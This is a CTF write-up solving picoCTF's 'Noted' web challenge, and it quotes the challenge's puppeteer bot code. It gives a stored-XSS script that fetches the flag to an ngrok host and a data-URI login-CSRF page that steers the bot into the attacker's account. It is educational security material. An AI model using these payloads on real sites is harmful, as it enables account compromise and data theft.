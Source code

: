# Noted

## Description

I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does **not** have access to the internet.

Hint 1: Are you *sure* I followed all the best practices?

Hint 2: There's more than just HTTP(S)!

Hint 3: Things that require user interaction normally in Chrome might not require it in Headless Chrome.

## Approach

This challenge took many attempts before I arrived at the correct solution. I attempted Javascript URIs, CSRF protection bypass, SOP bypass, and some XSS methods. 

This website allows the user to create notes, and includes a login system. Let's go over the rest of the website. Here's `report.js`:
```javascript
async function run(url) {
    let browser;

    try {
        module.exports.open = true;
        browser = await puppeteer.launch({
            headless: true,
            pipe: true,
            args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox'],
            slowMo: 10
        });

        let page = (await browser.pages())[0]

        await page.goto('http://0.0.0.0:8080/register');
        await page.type('[name="username"]', crypto.randomBytes(8).toString('hex'));
        await page.type('[name="password"]', crypto.randomBytes(8).toString('hex'));

        await Promise.all([
            page.click('[type="submit"]'),
            page.waitForNavigation({ waituntil: 'domcontentloaded' })
        ]);

        await page.goto('http://0.0.0.0:8080/new');
        await page.type('[name="title"]', 'flag');
        await page.type('[name="content"]', process.env.flag ?? 'ctf{flag}');

        await Promise.all([
            page.click('[type="submit"]'),
            page.waitForNavigation({ waituntil: 'domcontentloaded' })
        ]);

        await page.goto('about:blank')
        await page.goto(url);
        await page.waitForTimeout(7500);

        await browser.close();
    } catch(e) {
        console.error(e);
        try { await browser.close() } catch(e) {}
    }

    module.exports.open = false;
}
```
The report function uses puppeteer, an API that allows the automated control of the *headless, non-sandboxed* browser. This means that there is no human "admin" (although in a real world situation, there may be).

So, what happens when the user submits a link to the report page?
* Puppeteer creates a new account with a random username and password
* It creates a note under that new user, with the flag contained inside (process.env.flag)
* Only after this, does the bot open the URL that we provide through `/reports`

Originally, I planned to use Data/Javascript URIs to retrieve the account credentials, but this was not possible due to SOP. Also, the fetch API cannot be used due to CSRF tokens. It is important to note that the challenge creators mentioned that the headless browser did not have access to the internet; However, a couple of ports were open. Although this will not change the real solution, it will make exfiltration more streamlined. 

The idea is to create a note with a Javascript script embedded. Any user that opens the webpage will thus also execute the script. The script will contain the exfiltration process. Next, we can submit a Data URI forcing the headless browser to login to our account, then navigate to `/notes`. This will execute the note mentioned previously, allowing the retrieval of the flag. Here's the code:

Note:
```HTML
<script>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.getElementsByTagName('p')[0].innerText; fetch('https://www.ngrok.io/link_here?flag='+flag);</script>
```

Report:
```
data:text/html,
<body>
  <form action="http://0.0.0.0:8080/login" method="POST" id="vuln" target="_blank">
    <input type="text" name="username" placeholder="username" value="arst">
    <br><br>
    <input type="password" name="password" placeholder="password" value="arst">
    <br><br>
    <input type="submit" value="Submit">
</form>
    <script>
        var w1 = window.open('http://0.0.0.0:8080/notes', 'flagWindow');
        vuln.submit();
    </script>
</body>
```

The note will exfiltrate to an "ngrok" website (you can use any web server you have) through a GET request, including in the parameters. When submitting the preceding URI through `/report`, we will receive a GET request, visible through ngrok's console: 

![Console](/Web%20Exploitation/Noted/Console.png)

Thus, the flag is: picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
